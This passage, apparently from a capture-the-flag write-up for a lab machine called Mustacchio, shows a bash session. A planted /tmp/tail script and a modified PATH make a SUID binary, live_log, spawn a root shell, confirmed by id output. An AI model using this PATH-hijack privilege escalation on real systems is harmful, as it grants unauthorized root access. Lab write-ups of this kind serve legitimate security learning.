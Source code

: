 - PATH variable manipulation gives root shell.

```bash
barry@mustacchio:/home/joe$ echo "/bin/bash" > /tmp/tail 
barry@mustacchio:/home/joe$ chmod +x /tmp/tail 
barry@mustacchio:/home/joe$ export PATH=/tmp:$PATH
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
```

